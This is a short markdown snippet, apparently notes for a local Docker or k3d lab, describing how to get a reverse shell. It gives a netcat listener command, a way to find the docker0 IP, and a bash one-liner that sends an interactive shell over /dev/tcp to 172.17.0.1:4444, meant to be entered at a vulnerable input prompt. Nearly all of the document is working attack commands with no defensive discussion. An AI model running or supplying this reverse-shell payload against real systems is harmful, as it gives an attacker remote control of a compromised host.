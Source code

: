 # run netcat to capture incomming reverse shell
nc -lvp <port>

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1

Use the docker ip as the <ip>

# The exploit, run from a vulnerable input prompt
```bash
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```